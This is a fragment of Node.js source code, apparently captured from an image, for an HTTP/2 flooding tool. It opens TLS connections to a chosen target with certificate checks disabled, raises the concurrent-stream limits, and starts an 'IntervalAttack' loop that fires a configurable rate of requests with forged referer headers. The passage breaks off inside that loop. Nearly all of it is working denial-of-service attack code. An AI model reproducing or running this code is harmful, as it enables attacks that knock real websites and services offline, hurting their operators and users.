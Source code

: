            host: parsedTarget.host,
           rejectUnauthorized: false,
           servername: parsedTarget.host,
           ALPNProtocols: ['h2', 'http/1.1'],
       socket: connection,
       honorCipherOrder: true,
           uri: parsedTarget.host,
       secureProtocol: ["TLSv1_1_method", "TLSv1_2_method", "TLSv1_3_method",],
           secureOptions: crypto.constants.SSL_OP_NO_SESSION_RESUMPTION_ON_RENEGOTIATION |
                          crypto.constants.SSL_OP_NO_TICKET |
                          crypto.constants.SSL_OP_NO_COMPRESSION |
                          crypto.constants.SSL_OP_CIPHER_SERVER_PREFERENCE |
                          crypto.constants.SSL_OP_NO_SSLv2 |
                          crypto.constants.SSL_OP_NO_SSLv3 |
                          crypto.constants.SSL_OP_NO_TLSv1 |
                          crypto.constants.SSL_OP_NO_TLSv1_1,
       };

        const tlsConn = tls.connect(443, parsedTarget.host, tlsOptions); 

        tlsConn.allowHalfOpen = true;
        tlsConn.setNoDelay(true);
        tlsConn.setKeepAlive(true, 60 * 1000);
        tlsConn.setMaxListeners(0);

        const client = http2.connect(parsedTarget.href, {
            protocol: "https:",
            settings: settings,
            maxSessionMemory: 655000,
            maxDeflateDynamicTableSize: 4294967295,
           initialWindowSize: 65535,
           maxHeaderListSize: 65536,
           enablePush: false,
            createConnection: () => tlsConn
            //socket: connection,
        });

        client.setMaxListeners(0);
        client.settings(settings);

        client.settings({
           headerTableSize: 65536,
           maxConcurrentStreams: 2000,
           initialWindowSize: 6291456,
           maxHeaderListSize: 65536,
           enablePush: false
         });

        client.on("connect", () => {
           const IntervalAttack = setInterval(() => {
               for (let i = 0; i < args.Rate; i++) {
                   headers["referer"] = "https://" + parsedTarget.host + parsedTarget.path;
                   const request = client.request(headers)
                   